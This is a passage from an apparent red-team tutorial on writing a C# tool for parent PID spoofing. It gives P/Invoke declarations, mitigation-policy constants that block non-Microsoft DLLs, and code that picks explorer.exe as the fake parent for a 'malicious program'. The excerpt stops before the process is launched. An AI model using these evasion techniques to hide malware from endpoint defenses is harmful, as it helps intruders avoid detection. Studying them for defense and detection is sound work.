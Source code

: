 ```csharp
public static extern bool InitializeProcThreadAttributeList(IntPtr lpAttributeList, int dwAttributeCount, int dwFlags, ref IntPtr lpSize);
```

We also need the `STARTUOINFOEX` struct and some other constant values. These are taken from PInvoke website. The constants are from the Microsoft Docs.
```csharp
// https://pinvoke.net/default.aspx/Structures/STARTUPINFOEX.html
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFOEX
{
  public STARTUPINFO StartupInfo;
  public IntPtr lpAttributeList;
}

// https://pinvoke.net/default.aspx/kernel32/OpenProcess.html
[Flags]
public enum ProcessAccessFlags : uint
{
  All = 0x001F0FFF,
  CreateProcess = 0x000000080
}

public const int PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = 0x00020000;
public const long PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON = 0x100000000000;
public const int PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY = 0x00020007;

public static class CreationFlags
{
  public const uint SUSPENDED = 0x4;
  public const uint EXTENDED_STARTUPINFO_PRESENT = 0x00080000;
}
```

All the remaining ones like `PROCESS_INFORMATION` etc. are going to be the same.

### Main Method
First up we need to initialize the `STARTUOINFOEX` and `PROCESS_INFORMATION` structs.
```csharp
STARTUPINFOEX siex = new STARTUPINFOEX();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
```

Then we can look for the target parent process whose ID we are going to give to our malicious program. I'm using explorer but you can use whatever process you want. Make sure that process is already running.
```csharp
var process = Process.GetProcessesByName("explorer");
int parentProc = 0;
foreach (var p in process)
{
  parentProc += p.Id;
}

Console.WriteLine("[*] New Parent PID Found: {0}", parentProc);
```
